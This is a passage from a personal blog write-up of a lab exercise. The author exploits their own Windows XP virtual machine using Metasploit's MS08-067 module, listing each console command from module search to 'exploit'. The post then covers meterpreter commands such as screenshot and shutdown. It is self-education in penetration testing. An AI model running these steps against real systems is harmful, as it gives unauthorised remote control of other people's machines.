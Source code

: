 With the Metasploit console loaded we’ll need to find the exploit we’re looking to use within the Metasploit database by entering

_> search MS08-067_

This should present one result of exploit/windows/smb/ms08\_067\_netapi which we will need to utilise by entering

_> use exploit/windows/smb/ms08\_067\_netapi_

<img class="aligncenter wp-image-135 " src="https://i2.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_in_focus_metasploit.png?resize=545%2C35" alt="Exploit in Focus" width="545" height="35" srcset="https://i2.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_in_focus_metasploit.png?w=810 810w, https://i2.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_in_focus_metasploit.png?resize=300%2C19 300w, https://i2.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_in_focus_metasploit.png?resize=768%2C49 768w" sizes="(max-width: 545px) 100vw, 545px" data-recalc-dims="1" /> 

Metasploit should now show our desired exploit in its initial stream. The exploit will likely have variables though and we need to know what they are, otherwise the exploit may fail. We can find them out by entering the command

_> show options _

<img class="aligncenter size-large wp-image-136" src="https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/ms08_067_options_metasploit.png?resize=640%2C318" alt="MS08_067 Options in Metasploit" width="640" height="318" srcset="https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/ms08_067_options_metasploit.png?resize=1024%2C509 1024w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/ms08_067_options_metasploit.png?resize=300%2C149 300w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/ms08_067_options_metasploit.png?resize=768%2C382 768w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/ms08_067_options_metasploit.png?w=1316 1316w" sizes="(max-width: 640px) 100vw, 640px" data-recalc-dims="1" /> 

MS08_067s options should present themselves as above and we can see that two of the options (RPORT and SMBPIPE) are already populated. RHOST is not and is flagged as “Required: Yes” so we will need it. Luckily RHOST is a simple one to find in this case as it stands for Remote Host which is our XP virtual machine. To set our XP machines address as the RHOST type

_> set RHOST <VM IP Address>_

The next step will prove that all your hard work will have paid off, the execution of the exploit. To take the juiciest step all you need to type is

_> exploit_

<img class="aligncenter size-large wp-image-137" src="https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_Success_Metasploit.png?resize=640%2C246" alt="Exploit Success in Metasploit" width="640" height="246" srcset="https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_Success_Metasploit.png?resize=1024%2C393 1024w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_Success_Metasploit.png?resize=300%2C115 300w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_Success_Metasploit.png?resize=768%2C295 768w, https://i1.wp.com/shortmsgserv.co.uk/wp-content/uploads/2017/12/Exploit_Success_Metasploit.png?w=1314 1314w" sizes="(max-width: 640px) 100vw, 640px" data-recalc-dims="1" /> 

Once a few seconds have passed the terminal window should show meterpreter which will allow you to run various commands on your target. If you’d like to know what you can run simply enter the command

_> help_

which will list any available commands you can run. To verify you have successfully completed the exploit I would recommend running _ipconfig_ to show the IP address of the machine as well as _screenshot_ to be able to visibly see the machine running. If you would like to feel you hold real power, feel free to enter _shutdown_ which, unsurprisingly, will shut down the virtual machine.

# Personal Lessons

This exercise has allowed my knowledge to grow far greater than I had expected. Due to Windows XP’s reputation for poor security I had half-expected to follow a <a href="https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/" target="_blank" rel="noopener">tutorial</a> and have successfully carried out an exploit within about half-an-hour.

Struggling to follow this due to me using Service Pack 3 has taught me far more valuable skills than with the tutorial alone as I would have solely learnt how to execute one exploit with Metasploit, on one operating system.
